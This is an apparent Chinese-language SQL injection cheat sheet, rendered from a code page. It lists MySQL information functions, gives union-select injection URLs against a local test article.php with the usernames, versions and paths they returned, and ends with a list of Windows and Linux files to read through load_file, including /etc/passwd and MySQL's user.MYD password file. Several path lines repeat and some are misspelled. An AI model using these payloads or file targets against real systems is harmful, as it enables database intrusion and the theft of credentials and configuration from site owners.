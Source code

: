 ```
system_user() 系统用户名
user() 用户名
current_user 当前用户名
session_user()连接数据库的用户名
database() 数据库名
version() MYSQL数据库版本
load_file() MYSQL读取本地文件的函数
@@datadir 读取数据库路径
@@basedir MYSQL 安装路径
@@version_compile_os 操作系统
```

`http://127.0.0.1/test/article.php?id=-1 union select 1,2,user() --`   得到用户名 root@localhost

`http://127.0.0.1/test/article.php?id=-1 union select 1,version(),database() --` 得到版本号 5.7.9 和 数据库名 test

`http://127.0.0.1/test/article.php?id=-1 union select 1,@@datadir,@@version_compile_os --`  得到数据库文件路径 D:\Program Files (x86)\MySQL\MySQL Server 5.7\data\ 和操作系统版本 Win32

```

windows:

C:\php\php.ini 	PHP配置文件
D:\Program Files (x86)\MySQL\MySQL Server 5.7\my.ini MySQL配置文件
D:\Program Files (x86)\MySQL\MySQL Server 5.7\data\mysql\user.MYD 	MySQL用户名和密码文件
C:\apache24\conf\httpd.conf Apache配置文件

Ubuntu :
/etc/apache2/apache2.conf    apache2 配置文件
/etc/php5/apache2/php.ini     php 配置文件
/etc/mysql/my.cnf                      mysql 配置文件
/etc/issue
/etc/issue.net                        版本号
/etc/passwd                         用户账号和密码
/proc/cpuinfo                       cpu 信息
/proc/meminfo                      内存信息

/etc/sysconfig/iptables 从中得到防火墙规则策略
/etc/httpd/conf/httpd.conf  apache配置文件
/etc/redhat-release 系统版本
/usr/local/app/php5/lib/php.ini PHP相关设置
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf 虚拟网站设置
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf 查看linux APACHE虚拟主机配置文件
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
/usr/local/resin-pro-3.0.22/conf/resin.conf 同上
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf /httpd.conf 查看linux APACHE虚拟主机配置文件
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
/usr/local/resin-pro-3.0.22/conf/resin.conf 同上
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf APASHE虚拟主机查看
```
